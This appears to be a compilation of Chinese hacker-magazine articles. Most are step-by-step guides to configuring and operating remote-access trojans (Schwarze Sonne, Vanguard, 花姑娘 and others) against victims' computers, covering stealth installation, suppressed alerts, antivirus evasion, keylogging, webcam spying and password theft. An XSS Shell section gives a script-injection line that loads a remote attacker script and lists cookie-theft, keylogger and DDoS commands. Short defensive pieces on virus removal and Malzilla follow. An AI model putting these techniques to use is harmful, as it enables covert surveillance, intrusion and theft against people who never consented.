看了以上这么多功能，有些小菜肯定要问了：“既然是在后台运行的，那我们要怎么查看呢？万一被对方发现了又要怎么办呢？”其实，作者早就为我们想好了，使用“Ctrl+Alt+S”就可以直接调出屏幕间谍，而且我们还可以为它设置一个密码，这样就能较有效地防止对方查看我们的程序了。图6，我们所要做的就是隐藏好程序的安装路径，如图7。

屏幕间谍的“时长”就是屏幕截图，它可以按照我们设定好的时间来截屏。通过这个功能，肉鸡的动向我们就可以完全掌握了。设置好抓图的间隔时间后，程序就会不断地抓图，以达到对肉鸡的监视，如图5。


这样优秀的一款程序，本来是用于管理本地计算机的，现在却被我们拿来监视肉鸡，这不禁让我想到了古剑诀的一句话：“轻用其芒，动即有伤，是为凶器；大愚若拙，临机取决，是为利器。”无论是什么工具，完全取决于使用者要如何去使用它了。

（文章中涉及到的屏幕间谍程序，已经收录在了光盘中）

# 远程控制任我运行

今天我要给大家介绍一款非常出色的远程控制软件“远控任我行”。首先从官方网站“http://www.51rwx.com”下载它的最新版本，这个远程控制程序需要安装后才能使用。至于安装过程非常简单，就不详细介绍了。安装完毕后就会在桌面上出现一个 netsys.exe 快捷方式，这个就是控制端程序了。我们双击打开控制端，其界面还是很漂亮的，如图1所示。

远控任我行最大的亮点就是上线方式分为了正向连接和反向连接。如何选择“反向连接”和“正向连接”来进行远程控制呢？程序也给出了简单说明，如图2所示：

- 1、当我们和对方都处在同一个局域网中，则反向连接和正向连接都可以使用。  
- 2、我们是在局域网中，而对方是 ADSL 直接拨号上网，则使用正向连接方式。  
- 3、我们是 ADSL 直接拨号上网，对方是在局域网中或者网吧中，使用反向连接。  
- 4、都是 ADSL 直接拨号上网，反向连接和正向连接都可以使用。  
- 5、我们在一个局域网中，对方在另一个局域网中，则可以利用端口映射进行反向连接。  

如果我们不清楚对方所处的网络类型，那么可以将生成后的“正向连接”和“反向连接”的服务端程序都在远程主机上运行，然后进行“正向连接”和“反向连接”的尝试控制。


图2


图3


图4


图5

现在大家都明白如何选择了吧。因为我是 ADSL 直接拨号上网的，所以就选择了反向连接方式。我们先来配置服务端程序，点击配置服务端按钮后，我们再选择正向或反向连接方式。我先介绍一下正向连接的配置方法：点击“正向连接型”，“连接端口号”和你的控制端端口必须是一样的，否则会无法上线；“连接密码”使用默认的就可以，其它选项可以根据自己情况来进行设置，如图3。

我们再来看一下反向连接服务端的配置，点击“反向连接型”，在“DNS 解析域名”栏填写上自己申请的动态域名，记住一定要把端口号填写上，“连接密码”和“上线分组”等可以随便填写，如图4。选择窗口上方的“安装信息”，“服务端安装路径”和“服务端安装名称”我们使用默认的就可以了，下面的几个选项可以根据自己的需要进行选择，如图5。

再来选择窗口上方的“启动项目”和“提示信息”，大家根据程序给出的信息进行选择和填写就行了，基本上这和其它远控程序也都是大同小异的，如图6、图7所示。不过我建议大家不要选择提示信息，否则安装完服务端后远程主机会有提示。最后我们点击右下角的“生成服务端”按钮就行了！

我在虚拟机里运行了配置好的服务端程序，然后在控制端程序中点击“反向连接”，远程主机马上就上线了。如果我们在配置服务端的时候选择的是正向连接，那么就点击“正向连接”，就可以主动连接远程主机了。


图6

先来看一下它的“屏幕监视”功能，我们点击上方工具栏中的“屏幕监视”后，就可以看到远程主机的当前屏幕信息了，如图8。

再来看控制按钮的一些相关操作，“远程进程信息”可以查看到远程主机当前正在运行的那些程序，在某个进程上点击右键，就可以选择结束某个该进程，如图9。而“远程语音视频”可以监听远程主机的音频信息，如果远程主机安装有摄像头的话，我们还可以启动它的视频，另外其中的“发送消息”功能还可以让我们在远程主机上发送自己输入的信息，如图10。


图7


“远程命令控制”可以控制远程主机的关机、重启、锁定鼠标、打开光驱等恶作剧操作，如图11。而“远程注册表操作”则可以更改远程主机的注册表信息，相信大家对此都比较熟悉了吧，其实和在本机中编辑注册表信息没什么区别，如图12。

在“远程在线广播”功能中，我们可以批量关闭远程主机以及卸载服务端程序，还可以打开我们指定的网站和下载指定网站上的文件。对于这个功能我们可以充分利用，比如刷自己网站的流量等，如图13。“远程文件管理”功能可以下载上传本地和远程主机的文件，并且可以断点续传和覆盖传输，如图14。


关于这款远控程序的主要功能就给大家介绍到这儿，至于其它一些功能就留给大家在使用过程中去自己琢磨吧！

（文章中涉及到的远程控制任我行 10.9，已经收录在了光盘中）


# 简单易用的外国木马

### —— Schwarze Sonne

痛并快乐着

我特别喜欢收集各种各样的木马程序，这段时间以来就从各大论坛下载到了不少木马。可是当我测试的时候却发现，很多木马不是无法创建服务端程序，就是创建的服务端程序根本无法运行。就在我非常沮丧的时候，却发现有一款名为 Schwarze Sonne 的木马可以正常使用。既然如此，那我们就赶紧来看看这个木马的功能到底怎么样吧！

程序中的“Settings”按钮，如果我们没有修改服务端默认的连接信息，那么直接确认“Settings”选项中的内容就可以进行监听；如果修改了默认的连接信息，就需要在“Settings”中也进行相应修改。很快我们就可以看到服务端连接成功了，从连接列表中可以看到远程系统的名称以及系统版本、有无摄像头等基本信息，如图4。

## 一、配置服务端程序

首先从网上下载最新版本的 Schwarze Sonne 木马程序，解压后双击运行其中的客户端程序就可以进行操作了。第一步当然是来配置一个服务端程序，点击客户端主界面窗口下方的“Build Server”按钮，在弹出的窗口中并没有出现配置界面，而是需要创建一个用户的配置账号才行。点击窗口下方的“Add Profile”，在弹出的窗口中任意输入一个名称，然后就可以在窗口中看到刚才创建的名称了，选中这个名称后点击“Load Profile”按钮，接下来才可以在弹出的窗口中进行服务端配置，如图1。


选择配置窗口中的“Connection”，在下方的空白框中点击鼠标右键，选择“Add IP”来设置一个连接的 IP 地址。至于其它的服务端 ID 信息、连接端口以及连接密码，大家可以根据自己的需要进行设置，如图2。接着选择配置窗口中的“Installation”，勾选上“Install Server”选项，这样就可以设置服务端程序的存放目录和名称了，如果需要让服务端程序自动删除的话，可以勾选上“Melt”。接下来选中“Startup”选项，这样可以设置服务端程序的启动项，该木马可以采用注册表和 ActiveX 插件两种方式进行启动，如图3。除了上面的配置外，我们还可以设置服务端程序的互斥信息以及选择进行离线的键盘记录等选项，所有配置操作完成后，点击“Build”中的“Build”按钮，就可以创建一个全新的服务端程序了。


## 二、远程控制服务端

现在我们在虚拟机中运行服务端程序，接着点击客户端……

# 驭马记

## 1、了解系统信息

首先选择列表中的服务端信息，在弹出的菜单中选择“Information”选项，从弹出的窗口就可以了解到远程系统的详细信息，比如服务端程序的名称、启动类型和启动信息、激活了哪些相应的控制功能以及远程系统的管理员名称等。

## 2、文件控制管理

接下来选择右键菜单中的“Filemanager”，在弹出的窗口中就可以对远程系统中的文件进行管理。我们首先在“Drives”磁盘列表中选择想要进行查看的磁盘名称，然后再依次选择想要查看的文件夹目录，当找到想要查看的文件和目录后，通过右键菜单中的命令对于文件进行传输、删除、运行等操作了，如图5。如果我们想要运行某个程序的话，还可以选择是正常运行还是隐藏运行。在进行文件下载或上传的时候，我们还可以在窗口的列表中看到传输的进度。但是当我测试的时候却发现，文件的下载功能似乎有些问题，因为指定的文件经常会下载失败。


选择窗口中的“Windowmanager”选项，就可以对远程系统中的当前窗口进行管理。同样还是通过右键菜单中的刷新命令来获取远程系统中最新的窗口信息内容，我们选择想要进行管理的窗口后，就可以对这些窗口进行最大化、最小化、关闭等操作了，如图7。对于一些进程无法结束的软件，我们就可以利用这个方法来进行关闭操作。

再来选择窗口中的“Servicemanager”选项，这样就可以对系统服务内容进行管理了，我们还是先通过右键菜单中的刷新命令来获取远程系统中最新的服务信息，使用鼠标选择想要进行管理的服务信息后，通过右键中的命令就可以对服务项进行开始和停止等操作，可惜没有新建系统服务以及服务启动方式调整的相关功能，如图8。


## 3、系统管理操作

再来选择右键菜单中的“Processmanager”，在弹出的窗口中就可以对远程系统的进程进行管理。通过右键菜单中的刷新命令，就可以获得最新的软件进程信息，如图6。经过认真观察，我们发现在列表中还有服务端程序的进程信息，这说明该木马的隐藏性做得还不够好。我们还可以选择想要结束的软件进程，单击右键菜单中的kill命令就可以结束掉它了，不过我发现System属性的进程是无法结束的。

## 4、注册表的管理

现在选择右键菜单中的“Registrymanager”，就可以对远程计算机的注册表进行管理了。我们首先在左侧的信息栏中选择想要查看的项目，当然也可以直接在地址栏输入想要查看的注册表路径，再通过右键菜单中的命令对相应的内容进行修改，如图9。前面我们提到了在系统服务管理器中，并没有增加新的系统服务的相关功能，那么在注册表编辑器窗口中就可以进行添加了。除此之外，我们还可以找到注册表的Run启动项，在右侧的窗口中设置想要随机启动的内容。


除此之外，Schwarze Sonne木马也包括了远程摄像头查看功能，点击鼠标右键选择其中的“Webcamspy”，在弹出的窗口中首先选择“Refresh Drivers”来获取远程系统中的摄像头信息，当获取成功后点击设备列表，选择想要进行查看的摄像头设备，然后再点击窗口中的“Start”命令，就可以查看到远程摄像头捕获的视频信息了。至于其他的控制操作和查看远程系统桌面是一模一样的，这里就不再进行相应的介绍了。


## 5、键盘记录操作

Schwarze Sonne木马也带有键盘记录功能，还记得前面配置服务端的时候有离线记录的选项吧，我们选择鼠标右键中的“Keylogger”，在弹出的窗口中就可以进行用户的键盘记录操作了。首先选择窗口中的“Online Keylogger”选项，接着点击窗口下方的“Start”按钮就可以激活键盘记录的操作命令。这样当用户有任何键盘操作的时候，就会立即将记录信息显示到窗口中。通过点击窗口下方的“Save as.txt”按钮，就可以对服务端程序记录的内容进行保存，如图10。接下来选择“Offline Keylogger”选项，这样就可以看到服务端未在线时所记录的全部信息内容了。


## 6、远程桌面查看

接下来选择右键菜单中的“Screenspy”，在弹出的窗口中就可以对远程系统的桌面进行实时查看。点击窗口下方的“Start”按钮，服务端程序就开始进行屏幕的捕捉了，如图11。该木马默认时候使用的监控窗口比较小，当然我们也可以点击最大化后进行查看。如果觉得屏幕的效果不好，还可以通过Quality选项中的滑杆来进行调整。如果勾选上了“Remote Control”选项，就可以在监控屏幕中进行远程控制操作了，而如果我们选择了“Save Captures”选项，木马就会自动将捕捉到的屏幕保存为图片信息。

## 7、其他控制功能

其实除了上面介绍的这些控制功能外，Schwarze Sonne木马还包括很多其他的功能，比如远程终端管理、用户密码获取、下载者功能等。我们通过用户密码获取功能就可以读取出MSN和火狐浏览器的账号密码信息，如果选择的是远程终端管理命令，就可以在弹出的窗口中激活该命令，然后在窗口中输入想要执行的终端控制命令了，如图12。

## 三、总结

通过上面的介绍我们可以看出，Schwarze Sonne木马的功能还是非常多的，基本上可以满足用户对远程计算机的控制操作，而且Schwarze Sonne木马还支持插件管理，这样就可以更好地拓展控制功能了。但是它每项控制功能的操作还比较弱，如果以后能逐步完善控制功能就更好了，当然服务端程序的隐藏设置也需要进一步加强。

（文章中所用到的Schwarze Sonne RAT 0.7已收录到光盘中）

# 不是MSN的远程控制木马

由于这段时间比较忙，所以就没怎么去关注木马，也不知道最近都出了哪些比较好用的木马程序，趁着放假这几天，我就在一些黑客网站上不停地寻找着，终于发现了一款非常有意思的木马，它的名字比较长，叫做Vanguard Remote Administration，下面我们就来试用一下Vanguard木马，看看它都有什么样的控制功能。

## 一、配置服务端程序

首先我们从网上下载Vanguard的程序包，解压后会发现在文件夹下只有一个可执行文件，双击运行Vanguard的客户端程序。第一次使用时会发现其操作界面与MSN相似。点击“Main”菜单中的“Create New Server”，即可在弹出窗口中进行服务端程序配置。

在“Group”和“Name”栏设置分组与上线名称，在“Folder”中选择服务端释放目录，然后在“Registry Key”和“File Name”中设置启动名称和文件名。由于该木马通过ActiveX启动，可通过“ActiveX Key”后面的按钮随机生成启动项信息，如图1。


接下来在“Connection”选项中设置连接IP地址。Vanguard提供多组连接选项以提高连接成功率。最后可按需选择“Inject Into Browser”和“Change Server Icon”，完成后点击“Create”创建服务端程序。


## 二、服务端程序控制

双击运行配置好的服务端程序后，系统右下角会出现类似MSN好友上线的提示；在Vanguard列表中也能看到连接成功的服务端信息。选中目标后使用右键菜单即可进行控制，如图2。

先选择“File Manager（文件管理）”命令，可对远程计算机文件进行管理。可通过磁盘列表定位文件，使用工具栏进行上传、下载、删除、运行等操作，如图3。文件传输时会显示进度窗口，并支持断点续传与暂停/继续。

选择“Windows Manager（窗口管理）”命令后，可对远程主机打开窗口进行管理。不同颜色表示不同窗口状态（如当前窗口、隐藏窗口等），并可自动刷新获取最新信息。通过工具栏可执行关闭、抖动、隐藏等操作，也可向指定窗口发送文本消息，如图4。


我们再来选择右键菜单中的“Service Manager”（服务管理）命令，它主要是针对系统的服务项来进行管理。在弹出的窗口中可以看到远程系统的服务信息，通过上方的控制命令就可以对这些服务项进行开始、停止、删除等操作了，如图5。此外，点击工具栏中的安装按钮，在弹出的窗口中设置服务名称、文件名称、文件路径等信息，然后点击安装命令就可以在远程系统中生成一个新的服务，通过这个功能我们就可以添加一种服务端程序的启动方式。


接下来选择右键菜单中的“Process Manager”（进程管理）命令，它可以对远程系统中当前的进程进行管理操作。同样Vanguard木马会使用不同的颜色来表示系统中不同类型的进程信息，比如被服务端程序利用的IE浏览器进程就是以绿色来进行显示，从而避免被用户误关闭了。通过上方工具栏中的命令按钮，我们可以禁止或激活某个指定的进程信息，当然也可以直接将其进行关闭，如图6。


我们再来看看右键菜单中的“Application Manager”命令，这个控制命令经常会出现在国外的木马程序中，它的作用主要是管理远程系统中已经安装的软件。选择该命令后，在弹出的窗口中我们就可以看到远程系统已经安装的软件信息了，通过工具栏中的相关命令就可以进行软件的卸载了，就好像我们在控制面板里进行操作一样，可以非常方便地清除掉系统中安装的安全软件，如图7。接下来我们看看“Command Prompt”这个命令，该命令会直接在客户端程序中模拟出远程的命令提示符窗口，这样在远程系统不打开其他窗口的情况下，我们就可以执行很多的系统命令了，如图8。


作为一款远程控制的木马程序，远程桌面的查看管理功能是必不可少的。选择右键菜单中的“Screen Capture”命令，我们就可以对远程计算机的桌面进行查看了。该木马在默认设置时，捕捉速度还是非常快的，只不过捕捉的效果并不理想，如果要想得到好的效果，那么捕捉速度就会有非常明显的降低。点击上方工具栏中的鼠标和键盘按钮就可以通过捕捉的屏幕对远程计算机进行控制了，就像是在自己的电脑上进行操作一样。如果我们点击了工具栏中的保存按钮，那么木马就会对捕捉的屏幕自动地进行保存了，如图9。


最后我们再来看看“Key logger”命令，它就是木马程序中最常见的键盘记录功能了，使用它我们就可以获得远程用户的键盘记录情况。点击工具栏中的“Active”命令按钮，就可以及时地记录下来远程用户当前的键盘输入情况，并可以通过工具栏中的保存命令来对记录下的内容进行保存。由于该木马是一款国外的木马程序，所以只可以记录英文和数字信息，并不能记录常见的中文信息内容，这不能不说是一种遗憾啊，如图10。

## 三、总结

到此为止，Vanguard木马的主要功能就为大家介绍完了，其实我们可以看到，Vanguard木马所拥有的一些功能，基本上也都是我们常见的一些控制功能。如果非要说Vanguard木马的特色，那么就是使用不同的颜色来对窗口和进程进行区分了。其实无论它的功能怎么样，只要你喜欢这款木马，那就赶快地来试试看吧！

> （文章中涉及到的远控木马Vanguard Remote Administration，已经收录在了光盘中）

# 强大的“花姑娘”——远程控制使用小记

hx小龙（白雪龙）

最近我一直在看电视剧《神话》，其中一位名叫“素素”的姑娘为爱而死的情节让我很是感动，这天刚看完电视剧无事可做，就在网上闲逛，结果无意间淘到了一款名叫“花姑娘远程控制2010正式版”的远控木马，就下载试用了一番，感觉效果很不错，于是就想着写了本文，好让大家和我一起来领教一下这位“姑娘”是如何洞穿你的电脑的！

## 一、配置服务端

首先我们从网上下载花姑娘远程控制程序并解压，双击运行客户端程序，点击界面最右边的“配置服务端”，在弹出的窗口中就可以进行相应的配置了。花姑娘远程控制程序的配置非常简单，“木马连接的设置”可以使用IP地址、网页地址和网页域名三种方式来进行连接，同时程序还带有FTP更新IP和希网动态域名更新IP。上线途径则采用了地址和端口的形式，我们还可以修改默认端口，选择主功能菜单中的“设置”→“系统设置”就可以进行修改了，在这里还可以规定连接主机的超时时间等，如图1。


接下来就是填写木马服务的相关信息了，包括安装路径、安装名称、连接密码、上线分组、上线备注、修改图标、显示名称、服务名称、描述信息等。当然我们也可以选择是否安装系统启动项，所需要的操作只是在相应选项上勾选即可。修改图标可以让我们设置服务端程序所使用的图标，不仅可以使用图标文件，还可以使用后缀是ocx、icl的文件图标，当然也可以从exe可执行程序和dll动态链接库文件中进行图标提取。

再接着就是配置程序的工作模式了，我们选择木马将要插入的进程，这里木马为我们提供了两种方式，一种是“使用IE浏览器进程启动服务端”，这个选项可以让木马穿越防火墙、屏蔽360以及完美地绕过卡巴斯基。第二种方式就是“注入系统目录文件启动服务端”，程序默认给了我们四个选项，分别是explorer.exe、svchost.exe、winlogon.exe和flag.exe，当然大家也可以自定义填写其他的。除此之外，程序还提供了是否删除安装文件、是否使用UPX压缩服务端程序以及对上线超时时间的调整，同时我们还可以自由设定服务端程序的属性以及“Mutex互斥标记”等，这些都可以增强我们木马的生存几率，所有的配置完成后，就可以点击生成服务端程序了。


## 二、远程控制

我们在本地电脑中运行木马的客户端程序，然后在工具栏中填写上线端口和上线连接密码，点击“应用改变”，此时程序就进入监听状态了，很快就可以看到服务端上线了。上线的主机，就可以对它进行相应的远程操作了。

### 1、文件管理

对于木马或远控程序来说，最重要的功能就是“文件管理”了，在上线主机右侧的资源框中会自动列出上线主机的磁盘列表，借助它我们就可以查看远程计算机中的相关文件了，当然也可以进行相应的文件操作，比如通过工具栏的按钮或者右键菜单中的命令，我们就可以对文件进行复制、属性查看、删除、下载、重命名等操作，当然也可以将文件以多种方式运行，例如“正常运行”“隐藏运行”“最小（大）化运行”“带参数运行”等，还可以在本地电脑中打开此文件。当文件成功下载并且在本地打开时，就会在木马的解压目录下生成一个名为“本地打开文件”的文件夹以方便我们的操作，当然为了资料的全面我们也可以将远程电脑中的文件打包下载回来并保存在本地，呵呵，是不是很方便呢，如图3。

随便选择一个文件，点击右键菜单中的文件下载，整个文件的下载过程都可以在“传输管理”这个选项中查看到，有断点续传和覆盖模式两种选择，上传下载文件精确到了每秒KB的计算，而且还预估出了下载剩余的时间等，对错误的下载操作也可以执行“全部删除”和“选择性删除”等，如图4。


图3


图4

### 2、系统信息

我们再来看看“系统信息”，点击下方的“查询当前连接系统信息”就可以获得我们连接的远程主机的相关信息了，其中列举出了CPU型号、物理内存、系统目录、当前用户、当前日期等一些基本信息，很方便大家对肉鸡进行择优选取，如图5。

### 3、进程管理

我们再切换到“进程管理”选项下，点击“查看进程”后马上就会看到包括系统进程和软件进程在内的所有进程了，还一一列举出了它们的PID、线程数、优先级、进程路径等，显示出的信息相当全面，我们还可以随时点击下面的“查看进程”来不断地刷新远程主机的进程信息，选定某个进程后就可以使用“终止进程”来结束掉它了，是不是很方便呀。

| 属性名称 | 属性描述 |
|---|---|
| 操作系统芯片 | Intel(R) Celeron(R) CPU 1.70GHz |
| 总物理内存 | 1GB |
| Windows版本 | Windows XP Professional Service Pack 3 (5.1 Build 2600) |
| Windows目录 | C:\WINDOWS |
| 注册公司 | WWW.YmF.CoM |
| 系统语言 | 中文(中国) |
| 当前用户 | hx小龙 |
| 当前日期 | 2010-1-31 5:51:43 |
| 开机时间 | 4:41:19 |
| 计算机名称 | PC-200912191636 |
| 窗口分辨率 | 1280x800 |
| 服务端版本 | Beta 7.05 |
| 视频设备 | Microsoft WDM Image Capture (Win32) Version: 5.1.2600.5512 |

图5

### 4、服务管理

现在主流的木马程序大多是依靠系统服务来启动的，所以服务管理也就成了一个比较重要的环节，我们切换到“服务管理”选项，点击下方的“查看服务”，就可以很清楚地看到远程主机上启动的相关服务信息，而且程序也适当地显示出了服务的部分属性，我们可以很清楚地看到服务名称、详细描述、文件路径、状态、启动类型等，这些信息可以让我们更加准确地辨别相关服务的功能作用，以方便我们的结束或删除操作。通过窗口下方的控制命令，我们还可以对选中的服务做启动、停止、删除、更改其启动类型等操作，如图6。


图6

### 5、CMD操作

通过“CMD操作”这个功能选项，我们不仅可以执行很多网络终端命令，还可以执行大量的本地命令和后门程序，用户只需要输入相应的命令，回车确定就行了。这个功能其实就相当于一个简单的shell，为了方便用户的使用，当我们将鼠标移动到模拟框的时候，模拟框就会呈现激活状态，这样可以更好地识别远程电脑返回给我们的信息，而且我们也可以在模拟框中使用右键进行复制和粘贴等操作，如图7。

### 6、键盘记录

键盘记录是个老生常谈的话题了，它的主要功能就是记录远程电脑的键盘操作信息，不过遗憾的是目前这款木马还不支持中文记录，只能进行英文信息的捕获。我们切换到这个功能下，点击“启动键盘记录”等待对方输入数据后，再次点击“查看记录内容”，为了方便记录的保存，我们还可以使用软件自带的功能进行记录的导出，如果记录有很多也很复杂的话，我们也可以使用“清空键盘记录”来删除掉所有的记录内容，如图8。

# 牧马记

图7

## 7、屏幕语音监控

“屏幕监控”功能可以对远程主机的当前屏幕信息进行监控，同时我们还可以选择性地控制对方的屏幕，只需要点击屏幕窗口上方的“开始”按钮就行了，它的作用就是实现远程桌面的鼠标和键盘控制。而监控屏幕上方的“保存”按钮，它的作用就是保存当前的屏幕画面，同样它会在程序的解压目录下生成一个名为“视频图片”的文件夹。这款木马的传送能力非常不错，视频也很清晰，支持4位色、8位色、16位色和真彩色等四种颜色，大家可以根据自己的实际情况来进行选择。同时这款木马还会将我们接收的图像数据和位图的帧数在下边显示出来，如图9。点击木马上方的“设备监控”，该功能也就是进行视频监控和语音监控了，我们可以将录制下来的文件保存为mpg格式，在查看时可以全屏查看，也可以为对方进行拍照。

图8

图9

## 8、命令广播

最后我们再来看看“命令广播”功能，它可以对被控端主机进行远程卸载、远程关机、远程重启计算机等操作，同时也可以对肉鸡进行系统化的分类，可以按照地区等来划分肉鸡，也可以对肉鸡进行批量的操作，比如开启3389端口，只需要简简单单的一个单击就可以完美地解决了。我们还可以给用户发送网页下载命令，下载可以分为“前台”和“后台”运行，也可以设定为正常（隐藏）运行或者是最大化（最小化）运行，同时也可以为你的肉鸡批量开启相应的端口，如图10。在“信息发送”这儿，我们可以为远程用户发送图标类型或者按钮类型的提示等，同时也可以发送彩色文字，设定文字的坐标、色彩、大小后点击“发送”按钮就行了，如图11。这款木马还带有Web CC压力测试，我们只需要在域名处填写上相应的域名或者IP地址，在“页面地址”栏填写请求的动态页面，设定好端口，点击“开始”就可以进行压力测试了，如图12。

图10

图11

图12

## 三、小结

经过上面的介绍，相信大家对于这款木马的配置和使用都已经了解了吧。这款木马不仅拥有强大的功能，同时它对于一些细节方面也是设想得很全面，非常适合新手朋友们使用，操作起来很傻瓜化，可视化也很强。如今的互联网上，木马种类繁多，这对于小菜们来说是一好事，就看他们如何做一回伯乐，赏一匹好马了！

（文章中涉及到的花姑娘远程控制2010正式版，已经收录在了光盘中）

## 小菜蒜大赛乘机织XSS木马

Evil0r[B.S.T]

我在网上泡论坛时，发现了一个XSS木马，于是便下载回来测试了一下，感觉很不错，所以特地写出来与大家分享。

木马其实很早就出现了，但是国内并没有太多人来介绍它。我在测试的过程中发现它的功能非常强大，完全可以获取远程用户在访问网页时进行的鼠标操作以及键盘操作的内容……下面就让我们来认识一下这款XSS木马——XSS Shell。

XSS Shell是应用在Windows系统平台下的。将XSS Shell压缩包解压后，会得到多个文件夹和文件，其中xssshell.asp用于通信，DB文件夹下shell.mdb保存运行数据（如IP-Country、Log、Victim、VictimDetail等）。

- 1. 修改XSS Shell默认密码（编辑db.asp并替换默认词组）。
- 2. 如果改动了shell.mdb位置或名称，需要同步修改db.asp里的数据库路径配置。

将这些文件上传到ASP空间或IIS环境中，数据库文件建议放在不可被HTTP直接下载的位置。浏览器访问 `http://你的网址/xssshell/`，输入密码后即可进行管理操作，如图1。

图1

现在我们只是将XSS Shell的管理端设置好了而已……

若要通过XSS漏洞插入攻击脚本，可在目标页面注入代码。最简单写法是引用远程脚本地址；当用户访问存在漏洞的页面（如test.asp）时，XSS Shell会给出提示，如图2。

```html
<script src="你的XSS Shell.asp的网络地址"></script>
```

图2

图3

在管理页面的Victims栏会出现被获取到的IP地址；Commands栏预置了多种攻击方法，如getcookies、getSrcIfHtml、alert、eval、prompt、getKeyLoggerData、getMouseLog、getClipboard、getInternalIP、checkVisitedLinks、getPage、DDOS、Crash等，并将结果显示在Logs中。

# 战马记

图4

图5

为了能够更好地发挥XSS Shell的作用，XSS Shell还支持用户自定义新的攻击方式。使用Notepad++打开xssshell.asp文件，来到第336行，在其中加入属于自己的新攻击方法代号……在“Build Data Types”区域中加入回显属性定义……

图6

接下来就是编写实现攻击方法的函数了……主要是为了让大家看下添加新的攻击方式的步骤。

```javascript
Function cmdSample()
{
  return "it's working!";
}
```

这只是一个返回一条信息的函数，编写好攻击函数后，使用Notepad++查找 `function processGivenCommand`，在该函数中加入调用命令，同时让XSS Shell记录函数执行结果……

```javascript
break;
case CMD_SAMPLE:
    log(cmdSample(), dataTypes[cmd.cmd], cmd.attackID)
    "waitAndRun()";
```

图7

一切修改完毕后保存XSS Shell.asp文件，然后打开XSS Shell文件夹下的db.asp，需要在控制端加上新攻击方法……在 `Command = Array` 这行中加入 `cmdSample()`……测试结果如图8所示。

图8

（文章中涉及到的Notepad++以及XSSShell，已经收录在了光盘中）

# 小菜清除顽毒全过程

Besworst

前两天重装了一下系统，本来使用的是雨林木风的（不太好用，启动速度慢），这回就顺便换成番茄花园的。虽然是旧了一些儿，但我还是更喜欢使用番茄花园的系统。在安装虚拟机系统的时候，由于手头没有ISO安装镜像文件，于是只好从光盘中提取。可是番茄花园的系统不像雨林木风那样自带了刻盘软件，而我使用ONES这个软件也是用惯了的，于是就去绿色软件站下载了一个。结果还没有下载完，金山毒霸就提示说迅雷的下载文件里有病毒，刚开始我还以为是金山毒霸的误报，就关闭了提示，让它继续下载，下载完毕后把软件安装好，然后又把光盘里的ISO文件也拷下来并安装好了虚拟机系统。

在09年11期的杂志里有一个“鸽子集团1.37K远程控制”软件，我试用了一下，感觉挺不错的，于是就在虚拟机里捣鼓起免杀来。一边制作免杀一边和朋友聊天，刚开始还好好的，可后来电脑变得越来越慢，甚至有时候打字十多秒后才会出来，我不由得疑惑了起来，这是怎么了呢？就在这时，金山毒霸突然弹出了一个“发现病毒‘猫癣**变种***’已经清除”类似的提示，难道我就这么稀里糊涂地中了病毒？

我打开金山毒霸，对全盘进行查杀，结果查出了200多个病毒。我实在不想再重装系统，于是就自己试着来解决这次的病毒危机。经过观察，我发现所有的病毒文件名只有三种（其他的都是我的工具，后来还原了）：一个是LPK.DLL，一个是USP10.DLL，一个是类似于注册表键值的一些奇怪的东西。LPK.DLL的数量最多，其次是USP10.DLL。我来到C:\Windows\system32目录下想把LPK.DLL删除掉，结果却提示有程序正在使用，尝试删除USP10.DLL也是如此。找了半天毫无头绪，突然间想到360带的“文件粉碎机”，就用它把LPK.DLL粉碎掉了。我本以为就这样轻易地解决了，结果没过上两秒钟，它又重新生成了，肯定有其他间谍在监视着它，不让它被删除掉。

调出任务管理器，果然看到了几个生面孔：Rar.exe、Cmd.exe。我可没有开Rar和Cmd呀，何来的进程呢？我把它们都结束掉，却发现刚一结束它们就又蹦出来了。360的进程管理器有一个比较好用的功能，就是可以看到进程所调用的DLL文件。结果我找到了几个带了LPK.DLL和USP10.DLL的文件，进程是csrss.exe和个svchost.exe，而且svchost.exe的路径还不一样。其他不带路径都是C:\Windows\system32\svchost.exe，而那个带路径却是C:\Windows\System32\svchost.exe（大小写不一样）。

我开始一个个地结束掉进程，当结束到csrss.exe的时候，电脑重启了，原来这是系统的关键进程。系统重启后，我懊恼地发现病毒又报毒了，我只好再次全盘查杀。无意中看到在金山清理专家中也自带了文件粉碎机，于是我就抱着试试的态度把LPK.DLL和USP10.DLL丢到里面，成功地粉碎了，真是让我兴奋啊，这次病毒文件没有再出现！

我又运行金山毒霸把电脑重新扫描了一遍，除了几个类似注册表键值的东西还被报毒外，没有以前的LPK.DLL和USP10.DLL了。我放心地重启了电脑，本以为大功告成了，可惜却悲哀地发现，重启之后的电脑竟然连系统也进不去了，唉，真是可怜啊！每次都是到了微软旗子刚刚出现的时候就重启了，我想拿系统安装盘来修复的，可是无论如何也搞不明白里面所说的“管理员密码”是什么。无奈，只好使用Win PE进入系统。

思考了半天，突然想起以前查到的一个资料：LPK.DLL不是系统关键文件，删不删没多大关系；但是被感染的USP10.DLL却是系统关键文件，可能被我这么一删就进不去了。还好，我记起在C:\Windows\system32\dllcache目录下也有一个USP10.DLL的备份文件，所以就将它复制到system32目录下，重启电脑，终于可以进去了。

我打开11期杂志中的“金山急救箱”，扫描了一下，把受损伤的金山毒霸修复了一下，然后再进行扫描，再也没有LPK.DLL和USP10.DLL作怪了。可是后来金山毒霸又报毒，可能是病毒源文件又在发作了。我打开任务管理器，发现Rar.exe、Cmd.exe又出现了，到网上搜索了一下，结果如图1所示，原来是这种病毒啊，主要就是Rar.exe在作怪。把它上传到VirusTotal上去扫描，结果检测出了如图2所示的病毒。

图1

图2

于是我又将病毒文件粉碎掉，并且卸载了WinRAR，重装了一次WinRAR后，一切就OK了。就是有点儿后遗症，比如360的问题（我中的这个病毒好像就是09年2月份小规模爆发的“（ben）牛”病毒，大家还是小心谨慎点了）。这次清除病毒的过程并没有多大的技术含量，只是我在一味瞎搞，结果瞎猫碰上了死耗子，被我撞对了！

> （文章中所用到的金山急救箱、金山清理专家已收录到光盘中）

# 毒苑

# Malzilla的抓木马行动

这天上网时，无意中打开了一个挂马的网站，结果电脑不幸中了木马。我首先想到的就是拔掉网线，以防止木马再从网上下载别的木马和病毒。这个木马应该是做过了免杀处理，我电脑上安装的杀毒软件一点儿反应也没有，这该如何清理呢？干脆就直接抓取隐藏的网马样本，然后通过分析其动作来清除病毒吧。思路已经有了，我马上跑到同事的电脑上开工（我自己的那台电脑已经中了木马，当然是不能使用了）。

对于网马的解密，我使用到了Malzilla这个工具，解密的过程可以分为以下几步：

- 1. 在“Download”标签栏下方的“URL”地址栏中输入被挂马的网址，然后点击“Get”按钮。网页源码会显示在文本框中，除几个可疑Src地址外未见明显异常（如图1）。
